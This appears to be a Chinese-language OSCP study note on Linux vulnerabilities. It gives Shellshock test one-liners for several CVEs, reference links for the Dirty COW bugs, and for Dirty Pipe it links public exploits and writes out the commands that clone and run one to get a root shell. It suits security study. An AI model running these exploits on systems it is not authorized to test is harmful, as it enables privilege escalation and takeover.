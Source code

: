 ```yaml
---
layer: article
title: Common-Linux-Vulnerabilities
tags: oscp
---
```




## 破壳 CVE-2014-6271

```bash
env x='() { :;}; echo Vulnerable CVE-2014-6271 ' bash -c "echo test"
```

演示：<https://github.com/vulhub/vulhub/tree/3a513cc4d40b5bf9035a2774b82ab56c9676bda7/bash/CVE-2014-6271>

## 破壳变种  CVE-2014-7169

```bash
env X='() { (shellshocker.net)=>\' bash -c "echo date"; cat echo; rm ./echo
```

## 破壳变种  CVE-2014-7186

```bash
$ bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' || 
echo "CVE-2014-7186 vulnerable, redir_stack"
```

## 破壳变种  CVE-2014-7187

```bash
$ (for x in {1..200} ; do echo "for x$x in ; do :"; done; for x in {1..200} ; do echo done ; done) | bash ||
echo "CVE-2014-7187 vulnerable, word_lineno"
```

## 破壳变种  CVE-2014-6278

```bash
shellshocker='() { echo You are vulnerable; }' bash -c shellshocker
```

## 破壳变种  CVE-2014-6277

```bash
bash -c "f() { x() { _;}; x() { _;} <<a; }" 2>/dev/null || echo vulnerable
```

## 脏牛 CVE-2016-5195

**参考：[深度分析“大小脏牛”漏洞：CVE-2016-5195和CVE-2017-1000405](https://www.freebuf.com/articles/network/283313.html)**

## 大脏牛 CVE-2017-1000405

**参考：[深度分析“大小脏牛”漏洞：CVE-2016-5195和CVE-2017-1000405](https://www.freebuf.com/articles/network/283313.html)**

## 脏管 CVE-2022-0847

1. poc by [Arinerron](https://github.com/Arinerron)

<https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit/blob/main/exploit.c>

执行后密码root修改为`aaron`

2. poc by [r1is](https://github.com/r1is)

<https://github.com/r1is/CVE-2022-0847/blob/main/Dirty-Pipe.sh>

执行后获得root shell

```bash
git clone https://github.com/r1is/CVE-2022-0847.git
cd CVE-2022-0847
chmod +x Dirty-Pipe.sh
bash Dirty-Pipe.sh
```

还有几个待补充

**参考：[CVE-2022-0847 Linux 脏管漏洞分析与利用](https://www.freebuf.com/vuls/331378.html)**
